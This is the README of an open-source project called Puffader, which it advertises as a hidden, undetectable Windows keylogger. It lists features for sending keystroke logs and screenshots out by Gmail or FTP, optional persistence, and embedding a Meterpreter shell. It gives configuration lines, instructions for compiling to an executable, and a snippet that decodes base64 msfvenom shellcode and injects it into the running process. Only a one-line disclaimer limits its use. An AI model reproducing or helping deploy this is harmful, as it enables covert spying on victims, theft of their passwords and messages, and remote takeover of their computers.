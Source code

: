 [![Build status](https://ci.appveyor.com/api/projects/status/5tc6085mmmw6rym8?svg=true)](https://ci.appveyor.com/project/xp4xbox/puffader)
# Puffader
Puffader is an opensource, hidden and undetectable keylogger for windows written in Python 2.7 which can also capture screenshots and mouse window clicks.

## Installation
Puffader Requires:
* [Python 2.7](https://www.python.org/downloads)
* [Pyhook](https://sourceforge.net/projects/pyhook/files/pyhook/1.5.1/)
* [Pywin32](https://sourceforge.net/projects/pywin32/files/pywin32/)
* [PyAutoGui](https://pypi.python.org/pypi/PyAutoGUI)

Please refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Installing-Prerequisites) for more information on installing prerequisites.

The program can be downloaded via github or git eg.
```git clone https://github.com/xp4xbox/Puffader```

## Features
Currently Puffader has several features such as:
* Ability to send logs to any gmail account.
* Ability to send logs via ftp
* Ability to capture screenshots
* Ability to store logs locally
* Ability to configure log size before sending
* Ability to send logs at timed intervals
* Ability to control how you want the backspace key to be outputed as.
* Ability to stop the program via ctrl-rshift-h.
* Ability to log special characters.
* Ability to embed an undetectable meterpreter shell
* Optional persistence.
* Ability to capture window mouse clicks
* Checking for multiple instances
* And more...

## Quick Usage

1. Open file with idle or any other editor.
2. Modifiy lines `22-45` for your personal preference: eg.
```
strEmailAc = "email@gmail.com"
strEmailPass = "pass"

blnFTP = "False"
strFtpServer = ""
intFtpPort = 21
strFtpUser = ""
strFtpPass = ""
strFtpRemotePath = "/"

intCharPerSend = 1000

blnUseTime = "False"
intTimePerSend = 120

blnStoreLocal = "True"
strLogFile = "c:/temp/test.txt"

blnLogClick = "True"
blnBackRemove = "True"

blnScrShot = "True"
strScrDir = "c:/temp"
intScrTime = 120
```
> NOTE: For `strScrDir`, be sure to leave out the last `/`.

#### If you plan to send messages via email, be sure to [allow access for less secure apps](https://myaccount.google.com/lesssecureapps) in your gmail account.

For more information please refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Usage).

### Compiling Program To .exe

#### Py2Exe (recommmended)
1. Install [Py2Exe](https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/).
2. Run `python setup.py`

#### cx_Freeze
1. Install cx_Freeze via `pip install cx_freeze`.
2. Run `python cx_freeze_setup.py build`.

Or refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Compiling-To-.exe) for more information.

## Using Persistence

Please refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Persistence).

## Adding Meterpreter Plugin

1. Generate raw shellcode using msfvenom (eg. xr8\x02...).
2. Encode the shellcode to base64 by using [this](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/base64encoder.py).
3. Move the [code_injector module](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/code_injector.py) to same dir as the program.
4. Paste in this code after the function to prevent multiple instances. Setting b64shellcode to be your encrypted shellcode.
```
import code_injector, base64
# base64 shellcode
b64shellcode = ""
shellcode = base64.b64decode(b64shellcode)  # decrypt shellcode
pid = os.getpid()  # get current pid

code_injector.InjectShellCode(pid, shellcode)  # inject the shellcode into the program
```
5. Build program with Py2Exe using [setup.py](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/setup.py) to compile the program to single .exe.

> Check my other project [PyEvade](https://github.com/xp4xbox/PyEvade) for more info on how this works.

## Help

If you need any help at all, feel free to post a "help" issue.

## Contributing

Contributing is encouraged and will help make a better program. Please refer to [this](https://gist.github.com/MarcDiethelm/7303312) before contributing.

## Disclaimer

This program must be used for legal purposes! I am not responsible for anything you do with it.

## License
[License](https://github.com/xp4xbox/Puffader/blob/master/LICENSE)
